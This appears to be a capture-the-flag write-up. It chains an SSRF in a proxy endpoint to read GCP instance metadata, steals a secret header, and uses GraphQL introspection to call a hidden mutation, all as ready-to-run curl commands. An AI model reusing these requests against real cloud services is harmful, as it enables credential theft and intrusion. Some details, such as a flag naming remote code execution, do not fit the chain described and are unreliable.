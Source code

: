 # 🏳️ The Great Juche Jaguar GraphQL Heist

> A deep-dive into a chained SSRF + GraphQL exploitation challenge from the DoD Cyber Sentinel Skills Challenge for Summer 2025. This was a 300-point web exploitation flag that combined cloud metadata abuse, introspection tactics, and endpoint logic failures.

---

## 🧠 Challenge Summary

The Juche Jaguar team exposed a **GraphQL API** behind a misconfigured **proxy endpoint**. By abusing an SSRF vector to access **GCP metadata**, I extracted a secret header, used that to authenticate to the GraphQL service, performed **introspection**, and discovered a hidden **mutation** that returned the final flag.

This was not your typical GraphQL challenge, it chained together multiple real-world vulnerabilities across layers of cloud infrastructure and API logic.

---

## 🧪 Exploit Chain Overview

- ✅ SSRF through `/proxy?url=` to reach internal metadata
- ✅ Extraction of `X-JJ-SECRET` from GCP instance metadata
- ✅ Use of the secret to access the GraphQL endpoint
- ✅ Manual introspection to discover hidden mutation
- ✅ Base64 decoding of response to retrieve flag

---

## 🧾 Step-by-Step Breakdown

### ✨ 1. SSRF to Access GCP Metadata

Used the vulnerable proxy endpoint to access the internal GCP metadata service:

```bash
curl "http://34.86.186.68:8080/proxy?url=http:%2F%2F169.254.169.254%2FcomputeMetadata%2Fv1/" \
  -H "Metadata-Flavor: Google"
```
This revealed the internal attribute: *X-JJ-SECRET*
--

### 🔑 2. Extracting the Secret Header

Then I pulled the value of that attribute directly:

```bash
curl "http://34.86.186.68:8080/proxy?url=http:%2F%2F169.254.169.254%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2FX-JJ-SECRET" \
  -H "Metadata-Flavor: Google"
```
✅ Output: *S3NT1N3L*
--

### 🧩 3. GraphQL Introspection

Armed with the secret, I could now access the protected GraphQL endpoint:

```bash
curl http://34.86.186.68:8080/graphql \
  -H "Content-Type: application/json" \
  -H "X-JJ-SECRET: S3NT1N3L" \
  --data '{"query":"{ __schema { mutationType { fields { name } } } }"}'
```
This revealed a hidden mutation: *m309e5336*
--

### 🚨 4. Invoking the Mutation

I triggered the hidden mutation to retrieve the flag:

```bash
curl http://34.86.186.68:8080/graphql \
  -H "Content-Type: application/json" \
  -H "X-JJ-SECRET: S3NT1N3L" \
  --data '{"query":"mutation { m309e5336 }"}'
```
**Encoded response:**

`eyJkYXRhIjp7Im0zMDllNTMzNiI6IkMxe3NzdDFfcjNtMHQzX2MwZDNfeDNjfSJ9fQ==`

**Decoded output:**

```json
{
  "data": {
    "m309e5336": "C1{sst1_r3m0t3_c0d3_x3c}"
  }
}
```
--

### 🏁 Final Flag

`C1{sst1_r3m0t3_c0d3_x3c}`

---

### 🔍 Key Techniques & Learnings
SSRF via query parameter injection

Cloud metadata enumeration (GCP)

Header-based GraphQL authentication

Manual GraphQL introspection with introspection disabled by default

Response decoding and mutation analysis

---

### 🛠 Tools Used
curl for all HTTP interactions

base64 for decoding the response

Manual query crafting (no fancy client needed)

---

### 👩‍💻 About Me
**Brenda Hensley**

🧠 AppSec & OffSec focused

🛡 TryHackMe: Top 5%

🏆 Placed **247th out of ~2200** in the 2025 **DoD Cyber Sentinel Skills Challenge** with 15/23 challenges completed

🔗 [LinkedIn](https://www.linkedin.com/in/brenda-hensley-/) & [Portfolio](https://brendahensley.tech)

## ✨ Fork it. Learn from it. Break things ethically.

